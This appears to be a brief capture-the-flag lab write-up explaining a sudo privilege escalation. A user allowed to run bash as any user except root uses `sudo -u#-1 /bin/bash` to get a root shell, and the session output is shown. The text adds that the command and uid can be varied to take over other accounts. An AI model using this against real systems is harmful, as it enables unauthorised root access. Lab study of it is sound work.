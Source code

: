 
This is incredibly easy.

If you run `sudo -l` and you get a response like this...

```
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# whoami
root
```

You're looking for the `(ALL, !root) NOPASSWD: /bin/bash` and you can run that command as root with the following.

`sudo -u#-1 /bin/bash`

You can sub out the command (the `/bin/bash`) part with whatever command you are listed as !root for.

Interestingly enough, the `-1` part of the cmd line can be changed to whatever uid in order to take over whatever account you want.  Note that is the number 1 and not a lowercase l.